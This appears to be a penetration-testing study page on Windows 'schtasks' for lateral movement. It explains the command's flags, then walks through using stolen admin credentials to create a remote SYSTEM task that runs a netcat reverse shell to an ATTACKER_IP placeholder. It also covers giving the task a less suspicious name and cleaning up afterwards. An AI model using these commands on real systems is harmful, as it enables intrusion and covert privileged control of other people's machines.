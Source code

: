# schtasks

> The  `schtasks` command can be used to schedule commands and programs to run periodically or at a specific time.

This command generally requires the user to be a member of the **Administrators** group on the remote computer. Refer to the documentation for exact actions that requires this permissions.

It first connects to port 135, before continuing the process on a dynamic port from 49152 to 65535. Refer to the link labelled "_Port numbers used_" in the resources section below for more information.

### Basic commands

{% code title="schtasks create" %}
```powershell
schtasks /s TARGET /ru "SYSTEM" /create /tn "<taskname>" /tr "<command/payload to execute>" /u "<username>" /p "<password>" /sc ONCE /sd 01/01/1970 /st 00:00 
```
{% endcode %}

* `/create` : Specify to create task
* `/s`: Specifies the name or IP address of a remote computer (with or without backslashes. Default is the local computer
* `/ru` : Runs that task with permission of the specified user account
  * eg. `/ru "SYSTEM"` runs the task with the **local system account**, a highly privileged account used by the operating system and system services
* `/tn` : Specifies a name for the task
* `/tr` : Specifies the program or command that the task runs
* `/u` , `/p` : command will run as the permissions of the username, and password of the user respectively&#x20;
* `/sc` : To specify the schedule type. Refer to the documentation link below for the full list of values
  * In our case, the value `ONCE` specifies that the task runs once at a specified date and time (see `/sd` and `/st`  below)
  * The `/st` option have to be specified if the value `ONCE` is used
* `/sd`: Specifies the date on which the task schedule starts, defaults to the current date on the local computer
* `/st` : Specifies the start time for the task, using the 24-hour time format&#x20;

{% code title="schtasks run" %}
```powershell
schtasks /s TARGET /run /tn  "<taskname>" /u "<username>" /p "<password>"
```
{% endcode %}

* `/run` : Specify to run task
* `/s` , `/tn`, `/u`  and `/p`: same as schtasks-create

### Example

Suppose we have breached a machine (`mach1`) on the AD network, along with credentials for an admin account (member of the **Administrators** group) that can be used on the target machine (`mach2`). We can perform the following sequence of commands to obtain a privileged reverse shell on the target machine (`mach2`). Let's assume the obtained admin credentials are: `admin` , `pass` .

> Assume that `nc64.exe` is present on the target machine, or we have somehow managed to upload a reverse shell payload via a SMB share, etc.

{% code title="mach1 (breached machine)" overflow="wrap" %}
```powershell
# ofcourse we want to change the taskname to something less suspicious 
#(1)
C:\> schtasks /create /s mach2.xxxx /ru "SYSTEM" /u "admin" /p pass /tn "revshell" /tr "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP <PORT>" /sc ONCE /st xxx 

#(2) same command as (1), just with different payload (binary uploaded via SMB)
C:\> schtasks /create ... /ru "SYSTEM" /tn "revshell" /tr "%windir%\rvshell.exe"  

C:\> schtasks /run /s mach2.xxxx  /tn  "revshell" 
```
{% endcode %}

The `/ru "SYSTEM"` option specifies to run the task as the local system account, that allows us to gain a privileged shell.

Note also that we can omit the `/sd` flag for the create command.

#### Cleanup

```powershell
C:\> schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Resources

1. Official `schtasks`  documentation:

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create" %}

2. Port numbers used:

{% embed url="https://serverfault.com/questions/899954/which-port-is-used-for-running-schtasks-exe-in-a-remote-computer" %}
